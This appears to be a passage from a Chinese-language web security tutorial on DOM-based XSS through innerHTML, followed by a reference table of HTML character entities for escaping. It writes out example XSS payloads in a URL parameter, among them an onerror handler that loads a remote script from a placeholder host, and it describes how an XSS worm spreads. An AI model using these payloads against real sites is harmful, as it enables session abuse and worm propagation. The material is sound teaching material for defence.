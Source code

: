 这是因为:

> 根据 W3C 规范，script 标签中所指的脚本仅在浏览器第一次加载页面时对其进行解析并执行其中的脚本代码，所以通过 innerHTML 方法动态插入到页面中的 script 标签中的脚本代码在所有浏览器中默认情况下均不能被执行。   

如果把地址改成 `www.xxx.com/index.html?name=<img src=@ onerror=alert(1)>` 的话，就相当于：
```js
document.getElementById("test").innerHTML="<img src=@ onerror=alert(1)>"
```
此时立刻就弹窗了 1。   
![页面DOM结构](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/4d4e8e0bc7f540e29a189712dd5cdc79~tplv-k3u1fbpfcp-watermark.image)      
此外还可以把地址改成 `www.xxx.com/index.html?name=<img src=@ onerror='var s=document.createElement("script");s.src="https://xxx.js";document.body.appendChild(s);' >` 的话，就相当于：
```js
var s = document.createElement("script");
s.src = "https://xxx.js";
document.body.appendChild(s);
```
代码中引入了一个第三方恶意脚本，在恶意脚本中可利用用户的登录状态进行各种接口操作，如发私信、微博等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。    
为了防止这种情况的发生，我们可以将网址上的值取到后，进行一个特殊处理，再赋值给 DOM 的 innerHTML

## 字符实体
在 HTML 中，某些字符是预留的。   

在 HTML 中不能使用小于号（<）和大于号（>），这是因为浏览器会误认为它们是标签。

如果希望正确地显示预留字符，我们必须在 HTML 源代码中使用字符实体（character entities）。   

字符实体类似这样：
> &entity_name;   
> 或者   
> &#entity_number;   

如需显示小于号，我们必须这样写：\&lt; 或 \&#60;      

提示：使用实体名而不是数字的好处是，名称易于记忆。不过坏处是，浏览器也许并不支持所有实体名称（对实体数字的支持却很好）。   

**HTML 中有用的字符实体(部分)**      

| 显示结果 | 描述   | 实体名称          | 实体编号（十进制） | 实体编号（十六进制） |
|----------|--------|-------------------|--------------------|----------------------|
|          | 空格   |                   | \&#160;             | \&#xA0;               |
| <        | 小于号 | &lt;              | \&#60;              | \&#x3C;               |
| >        | 大于号 | &gt;              | \&#62;              | \&#x3E;               |
| &        | 和号   | &amp;             | \&#38;              | \&#x26;               |
| "        | 引号   | &quot;            | \&#34;              | \&#x22;               |
| '        | 撇号   | &apos; (IE不支持) | \&#39;              | \&#x27;               |

**不间断空格（non-breaking space）**  
HTML 中的常用字符实体是不间断空格(\&nbsp;)。
